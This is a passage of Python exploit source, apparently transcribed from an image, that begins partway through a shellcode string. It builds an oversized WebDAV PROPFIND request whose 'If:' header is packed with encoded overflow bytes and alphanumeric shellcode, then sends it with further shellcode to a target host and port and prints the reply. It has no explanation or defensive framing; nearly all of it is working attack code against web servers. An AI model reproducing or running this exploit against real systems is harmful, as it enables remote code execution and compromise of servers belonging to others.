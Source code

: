 ```python
'\xC0\x5F\x5E\x5B\x5D\xC3\x8B\x48\x24\x8B\x55\x08\x8B\x40\x1C\x8D'+\
'\x0C\x51\x0F\xB7\x0C\x39\x8D\x04\x88\x8B\x04\x38\x03\xC7\xEB\xE1'
shellcodelen = 1744

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
sock.connect((targetip,targetport))
pay='PROPFIND / HTTP/1.1\r\nHost: localhost\r\nContent-Length: %d\r\n'%shellcodelen
pay+='If: <http://localhost/aaaaaaa'
pay+='\xe6\xbd\xa8\xe7\xa1\xa3\xe7\x9d\xa1\xe7\x84\xb3\xe6\xa4\xb6\xe4\x9d\xb2\xe7\xa8\xb9\xe4\xad\xb7\xe4\xbd\xb0\xe7\x95\x93\xe7\xa9\x8f\xe4\xa1\xa8\xe5\x99\xa3\xe6\xb5\x94\xe6\xa1\x85\xe3\xa5\x93\xe5\x81\xac\xe5\x95\xa7\xe6\x9d\xa3\xe3\x8d\xa4\xe4\x98\xb0\xe7\xa1\x85\xe6\xa5\x92\xe5\x90\xb1\xe4\xb1\x98\xe6\xa9\x91\xe7\x89\x81\xe4\x88\xb1\xe7\x80\xb5\xe5\xa1\x90\xe3\x99\xa4\xe6\xb1\x87\xe3\x94\xb9\xe5\x91\xaa\xe5\x80\xb4\xe5\x91\x83\xe7\x9d\x92\xe5\x81\xa1\xe3\x88\xb2\xe6\xb5\x8b\xe6\xb0\xb4\xe3\x89\x87\xe6\x89\x81\xe3\x9d\x8d\xe5\x85\xa1\xe5\xa1\xa2\xe4\x9d\xb3\xe5\x89\x90\xe3\x99\xb0\xe7\x95\x84\xe6\xa1\xaa\xe3\x8d\xb4\xe4\xb9\x8a\xe7\xa1\xab\xe4\xa5\xb6\xe4\xb9\xb3\xe4\xb1\xaa\xe5\x9d\xba\xe6\xbd\xb1\xe5\xa1\x8a\xe3\x88\xb0\xe3\x9d\xae\xe4\xad\x89\xe5\x89\x8d\xe4\xa1\xa3\xe6\xbd\x8c\xe7\x95\x96\xe7\x95\xb5\xe6\x99\xaf\xe7\x99\xa8\xe4\x91\x8d\xe5\x81\xb0\xe7\xa8\xb6\xe6\x89\x8b\xe6\x95\x97\xe7\x95\x90\xe6\xa9\xb2\xe7\xa9\xab\xe7\x9d\xa2\xe7\x99\x98\xe6\x89\x88\xe6\x94\xb1\xe3\x81\x94\xe6\xb1\xb9\xe5\x81\x8a\xe5\x91\xa2\xe5\x80\xb3\xe3\x95\xb7\xe6\xa9\xb7\xe4\x85\x84\xe3\x8c\xb4\xe6\x91\xb6\xe4\xb5\x86\xe5\x99\x94\xe4\x9d\xac\xe6\x95\x83\xe7\x98\xb2\xe7\x89\xb8\xe5\x9d\xa9\xe4\x8c\xb8\xe6\x89\xb2\xe5\xa8\xb0\xe5\xa4\xb8\xe5\x91\x88\xc8\x82\xc8\x82\xe1\x8b\x80\xe6\xa0\x83\xe6\xb1\x84\xe5\x89\x96\xe4\xac\xb7\xe6\xb1\xad\xe4\xbd\x98\xe5\xa1\x9a\xe7\xa5\x90\xe4\xa5\xaa\xe5\xa1\x8f\xe4\xa9\x92\xe4\x85\x90\xe6\x99\x8d\xe1\x8f\x80\xe6\xa0\x83\xe4\xa0\xb4\xe6\x94\xb1\xe6\xbd\x83\xe6\xb9\xa6\xe7\x91\x81\xe4\x8d\xac\xe1\x8f\x80\xe6\xa0\x83\xe5\x8d\x83\xe6\xa9\x81\xe7\x81\x92\xe3\x8c\xb0\xe5\xa1\xa6\xe4\x89\x8c\xe7\x81\x8b\xe6\x8d\x86\xe5\x85\xb3\xe7\xa5\x81\xe7\xa9\x90\xe4\xa9\xac'
pay+='>'
pay+=' (Not <locktoken:write1>) <http://localhost/bbbbbbb'
pay+='\xe7\xa5\x88\xe6\x85\xb5\xe4\xbd\x83\xe6\xbd\xa7\xe6\xad\xaf\xe4\xa1\x85\xe3\x99\x86\xe6\x9d\xb5\xe4\x90\xb3\xe3\xa1\xb1\xe5\x9d\xa5\xe5\xa9\xa2\xe5\x90\xb5\xe5\x99\xa1\xe6\xa5\x92\xe6\xa9\x93\xe5\x85\x97\xe3\xa1\x8e\xe5\xa5\x88\xe6\x8d\x95\xe4\xa5\xb1\xe4\x8d\xa4\xe6\x91\xb2\xe3\x91\xa8\xe4\x9d\x98\xe7\x85\xb9\xe3\x8d\xab\xe6\xad\x95\xe6\xb5\x88\xe5\x81\x8f\xe7\xa9\x86\xe3\x91\xb1\xe6\xbd\x94\xe7\x91\x83\xe5\xa5\x96\xe6\xbd\xaf\xe7\x8d\x81\xe3\x91\x97\xe6\x85\xa8\xe7\xa9\xb2\xe3\x9d\x85\xe4\xb5\x89\xe5\x9d\x8e\xe5\x91\x88\xe4\xb0\xb8\xe3\x99\xba\xe3\x95\xb2\xe6\x89\xa6\xe6\xb9\x83\xe4\xa1\xad\xe3\x95\x88\xe6\x85\xb7\xe4\xb5\x9a\xe6\x85\xb4\xe4\x84\xb3\xe4\x8d\xa5\xe5\x89\xb2\xe6\xb5\xa9\xe3\x99\xb1\xe4\xb9\xa4\xe6\xb8\xb9\xe6\x8d\x93\xe6\xad\xa4\xe5\x85\x86\xe4\xbc\xb0\xe7\xa1\xaf\xe7\x89\x93\xe6\x9d\x90\xe4\x95\x93\xe7\xa9\xa3\xe7\x84\xb9\xe4\xbd\x93\xe4\x91\x96\xe6\xbc\xb6\xe7\x8d\xb9\xe6\xa1\xb7\xe7\xa9\x96\xe6\x85\x8a\xe3\xa5\x85\xe3\x98\xb9\xe6\xb0\xb9\xe4\x94\xb1\xe3\x91\xb2\xe5\x8d\xa5\xe5\xa1\x8a\xe4\x91\x8e\xe7\xa9\x84\xe6\xb0\xb5\xe5\xa9\x96\xe6\x89\x81\xe6\xb9\xb2\xe6\x98\xb1\xe5\xa5\x99\xe5\x90\xb3\xe3\x85\x82\xe5\xa1\xa5\xe5\xa5\x81\xe7\x85\x90\xe3\x80\xb6\xe5\x9d\xb7\xe4\x91\x97\xe5\x8d\xa1\xe1\x8f\x80\xe6\xa0\x83\xe6\xb9\x8f\xe6\xa0\x80\xe6\xb9\x8f\xe6\xa0\x80\xe4\x89\x87\xe7\x99\xaa\xe1\x8f\x80\xe6\xa0\x83\xe4\x89\x97\xe4\xbd\xb4\xe5\xa5\x87\xe5\x88\xb4\xe4\xad\xa6\xe4\xad\x82\xe7\x91\xa4\xe7\xa1\xaf\xe6\x82\x82\xe6\xa0\x81\xe5\x84\xb5\xe7\x89\xba\xe7\x91\xba\xe4\xb5\x87\xe4\x91\x99\xe5\x9d\x97\xeb\x84\x93\xe6\xa0\x80\xe3\x85\xb6\xe6\xb9\xaf\xe2\x93\xa3\xe6\xa0\x81\xe1\x91\xa0\xe6\xa0\x83\xcc\x80\xe7\xbf\xbe\xef\xbf\xbf\xef\xbf\xbf\xe1\x8f\x80\xe6\xa0\x83\xd1\xae\xe6\xa0\x83\xe7\x85\xae\xe7\x91\xb0\xe1\x90\xb4\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81\xe9\x8e\x91\xe6\xa0\x80\xe3\xa4\xb1\xe6\x99\xae\xe4\xa5\x95\xe3\x81\x92\xe5\x91\xab\xe7\x99\xab\xe7\x89\x8a\xe7\xa5\xa1\xe1\x90\x9c\xe6\xa0\x83\xe6\xb8\x85\xe6\xa0\x80\xe7\x9c\xb2\xe7\xa5\xa8\xe4\xb5\xa9\xe3\x99\xac\xe4\x91\xa8\xe4\xb5\xb0\xe8\x89\x86\xe6\xa0\x80\xe4\xa1\xb7\xe3\x89\x93\xe1\xb6\xaa\xe6\xa0\x82\xe6\xbd\xaa\xe4\x8c\xb5\xe1\x8f\xb8\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81'
smallsc='VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A'
pay+=smallsc
pay+='>\r\n\r\n'
print pay
sock.send(pay)
sock.send(shellcode)
data = sock.recv(80960)  
print data 
sock.close
```
